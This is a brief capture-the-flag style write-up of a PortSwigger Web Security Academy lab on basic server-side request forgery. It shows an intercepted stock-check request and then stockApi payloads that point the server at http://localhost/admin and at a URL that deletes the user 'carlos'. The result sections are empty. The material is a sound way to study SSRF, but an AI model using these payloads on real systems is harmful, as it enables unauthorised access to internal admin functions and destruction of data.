

---

- **Target** SSRF lab - Basic SSRF against the local server
- **Author:** sonyahack1
- **Date:** 22.04.2025

---


## Intercepting a request for the stock check function

```html

POST /product/stock HTTP/2
Host: 0aa7006603f274d1827406f30014005b.web-security-academy.net
Cookie: session=tPPc42PtFUDiOHHe8jIx*********
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0aa7006603f274d1827406f30014005b.web-security-academy.net/product?productId=6
Content-Type: application/x-www-form-urlencoded
Content-Length: 107
Origin: https://0aa7006603f274d1827406f30014005b.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

```
```bash
stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D6%26storeId%3D1
```

> url decode the request body and use **<@urlencode></@urlencode>**:

```bash

stockApi=<@urlencode>http://stock.weliketoshop.net:8080/product/stock/check?productId=6&storeId=1</@urlencode>

```

> i need to access the admin panel at **localhost** and delete the user Carlos.
> That is I replace the request from the server side to make a request where I need and get the result.
> i change the request to **http://localhost/admin**:

```bash

stockApi=<@urlencode>http://localhost/admin</@urlencode>

```

> Result:



> i'm sending a request for delete user Carlos:

```bash

stockApi=<@urlencode>http://localhost/admin/delete?username=carlos</@urlencode>

```

> Result:


